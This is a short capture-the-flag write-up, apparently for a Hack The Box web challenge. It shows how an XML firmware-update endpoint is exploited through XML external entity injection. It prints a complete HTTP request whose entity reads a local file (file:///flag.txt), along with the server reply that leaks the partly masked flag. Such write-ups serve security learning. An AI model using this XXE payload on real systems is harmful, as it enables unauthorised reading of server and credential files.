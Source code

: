## 1. Navigate the web page, only thing that looks like a vector is the update page under the rom tab

## 2. the update function sends an xml config file to update the character

This looks like a XXE vulnerability

## 3. use XXE (XML external entity injection)

by using burpsuite proxy and repeater, you can modify POST requests.

_Modified POST request with XXE vulnerability exploit for flag.txt_

```
POST /api/update HTTP/1.1
Host: 83.136.253.216:55648
Content-Length: 1386
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Content-Type: application/xml
Accept: */*
Origin: http://83.136.253.216:55648
Referer: http://83.136.253.216:55648/rom
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<!DOCTYPE replace [<!ENTITY idk SYSTEM 'file:///flag.txt'>]>
<FirmwareUpdateConfig>
    <Firmware>
        <Version>
 		&idk;
	</Version>
        <ReleaseDate>2077-10-21</ReleaseDate>
        <Description>Update includes advanced biometric lock functionality for enhanced security.</Description>
        <Checksum type="SHA-256">9b74c9897bac770ffc029102a200c5de</Checksum>
    </Firmware>
    <Components>
        <Component name="navigation">
            <Version>3.7.2</Version>
            <Description>Updated GPS algorithms for improved wasteland navigation.</Description>
            <Checksum type="SHA-256">e4d909c290d0fb1ca068ffaddf22cbd0</Checksum>
        </Component>
        <Component name="communication">
            <Version>4.5.1</Version>
            <Description>Enhanced encryption for secure communication channels.</Description>
            <Checksum type="SHA-256">88d862aeb067278155c67a6d6c0f3729</Checksum>
        </Component>
        <Component name="biometric_security">
            <Version>2.0.5</Version>
            <Description>Introduces facial recognition and fingerprint scanning for access control.</Description>
            <Checksum type="SHA-256">abcdef1234567890abcdef1234567890</Checksum>
        </Component>
    </Components>
    <UpdateURL>https://satellite-updates.hackthebox.org/firmware/1.33.7/download</UpdateURL>
</FirmwareUpdateConfig>
```

the response:

```
HTTP/1.1 200 OK
Server: Werkzeug/3.0.3 Python/3.12.3
Date: Thu, 02 Jan 2025 00:35:37 GMT
Content-Type: application/json
Content-Length: 134
Connection: close

{
  "message": "Firmware version \nHTB{b*******************************\n update initiated."
}
```
